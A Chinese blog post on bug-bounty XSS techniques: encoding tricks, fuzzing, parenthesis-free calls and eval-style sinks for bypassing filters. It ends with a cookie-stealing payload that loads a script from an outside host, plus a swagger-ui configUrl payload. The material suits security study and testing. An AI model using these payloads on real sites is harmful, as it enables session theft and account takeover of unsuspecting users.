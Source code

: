 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      xss 				    # 标题
categories: SRC                        # 分类 
date:       2024-11-26 				# 时间
author:     z1 						# 作者
catalog: true 						# 是否归档
tags:								#标签
    - src
    - xss
description: XSS漏洞挖掘技巧
---
```

# XSS漏洞

## 1. XSS绕过 -- 标签/属性

### 1. 转义绕过

```html
  <h1>
      a
  </h1>
```

- 这种简单标签无法解析，说明<>被html实体编码为 `&lt`, `&gt`, 可以尝试url编码(对<和>进行url编码)， 或url双编码

```html
<input name="keyword" name="1234">
```
value的值如果有特殊字符，就会被实体化，此时可用onfocus绕过

```html
<input name="keyword" value='' onfocus="javascript:alert(1)" ''>
```

### 2. 属性内容回HTML实体编码绕过

*注意：实体编码只能属于**属性内容**，也就是如下位置*

```html
<img src=1 onerror="alert(1)" />
```

如果想要使用 `alert(1)` ,但是被拦截了，就可以用实体编码：

1. 先进行HTML实体编码
2. 再将html实体编码后的内容进行url编码（&在url中会被识别为参数分隔符）

### 3. 类双写绕过删除过滤

有的过滤是直接删除，可以用类双写绕过waf

- 例如waf对，多个关键字进行了删除过滤
  - `on<script>load=`
  - 过滤删除`<script>`,剩下`onload`

### 4. ***<u>fuzz进行bypass(重点)</u>***

使用burp爆破未检测的标签和属性

[Cross-Site Scripting (XSS) Cheat Sheet - 2024 Edition | Web Security Academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

1. 先跑可用属性
2. 再找对应标签来触发该属性

### 5. 常用标签和属性

```html
<img src=1 onerror=alert(1)>
<img src="https://www.baidu.com/favicon.ico" onload=alert(1)>
<svg onload=alert(1)>  <!-- dom 无法使用 -->
<video src="正常视频" oncanplay=alert(1)>
<input autofocus onfocus=alert(1)>  <!-- 自动聚焦到当前元素，导致执行-->
<a id=x tabindex=1 autofocus onfocus=alert(1) href=1 >
```

## 2. XSS绕过 -- JS技巧

如果可以绕过属性，标签，但是无法弹框或者跳转等方式被拦截，即 `alert()` 被拦截

### 1. unicode编码绕过（不用加引号）

js中的字母会自动进行unicode解码，可以用unicode绕过

alert(1) -> \u0061\u006c\u0065\u0072\u0074(1)

### 2. JS8/ascii 编码绕过（需要加引号）

JS中的字符串可以用 `JS8/ascii` 编码绕过关键字过滤

ascii: alert(1) -> \x61\x6C\x65\x72\x74

js8:    alert(1) -> \141\154\145\162\164\50\61\51

### 3. 平替window对象的几个全局函数

```js
window.alert(1) //window指浏览器页面
this.alert(1)  //this只想当前窗口
parent.alert(1)  //也可平替window对象
self.alert(1)
frames.alert(1)
top.alert(1)
```

这些方式的作用

JS中访问对象有多种方式：

```js
window.alert(1)  //这样的alert(1)是代码，只能进行unicode编码
window['alert'](1)  //这样的alert是字符串，可以进行JS8和ascii编码
//或者进行分割
window['ale'+'rt'](1)
//或进行拼接
window['al'.concat('ert')](1)
//纯数字，利用ascii的10进制编码
window[String.fromCharCode(97,108,101,114,116)](1)
```

### 4. 无括号调用函数(***括号被过滤时使用***)

1. 反引号

   ```js
    `${alert(1)}`  //模板字符串
    //延申用法
    alert `1`
   ```

2. Symbol.hasInstanceof

   ```js
   //需要引号
   class A{static [Symbol.hasInstance]=eval}; 'alert\x281\x29' instanceof A
   'alert\x281\x29' instanceof {[Symbol.hasInstance]:eval}
   ```

    `instanceof` 是运算符，用于判断左操作数是不是右操作数的实例    

   `Symbol.hasInstance`指向一个函数, `eval`，用于自定义对象在`instanceof`运算时的行为，即指定使用哪个函数来检查左操作数是不是右操作数的实例    

   这里``Symbol.hasInstance``函数并没有指向函数，而是指向了 `eval` 

   而 `eval` 是一个全局函数用于执行字符串中的 JavaScript 代码    

   即使用 `eval` 函数来检查 `alert(1)` 是否是有操作数的实例，自然就造成了弹框        

   这里的''内的东西用的ascii，用JS8也可以

### 5. 字符串转代码

```js
1. eval					eval("alert(1)")
2. setTimeout     setTimeout("alert(1)", 0)
3. setInterval      setInterval("alert(1)",999)
4. 匿名函数          (()=>{alert(1)})``	
							(()=>{alert(1)})()
5. 署名函数          Function("alert(1)")``	
							Function("alert(1)")()
6. 原型链              "".at.constructor("alert(1)")()	
							""['at']['constructor']("alert(1)")()  //可以换种方式访问对象，全部转化为字符串
7. Symbol.hasInstanceof
```

### 6. base64过滤关键字

```js
btoa('alert(1)')   //编码
atob('YWxlcnQoMSk=')   //解码
eval(atob('YWxlcnQoMSk='))
```

***同样，也可以换成ascii和JS8编码绕过***

### 7. 弱类型

js是弱类型语言，会进行类型转换，所以就延伸了下面这一种绕过方式

JSFUCK

[JSFuck - Write any JavaScript with 6 Characters: []()!+](https://jsfuck.com/)

## 3. 特殊情况

- 闭合引号后，等号被删除，即不允许使用属性

  - 闭合标签

- 双引号被转义

  - `<input xxx value="\\\" onload=xxx \"">`

    结果<input xxx value="\\\" onload=xxx \"">

## XSS payload

- xss-img-cookie:

  ```html
  <img src=1 onerror='s==document.createElement(`script`);s.src=`https://xxx/cookie.js`;document.body.appendChild(s)'>
  ```

- swagger-ui xss

  ```txt
  ?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json
  ```

  


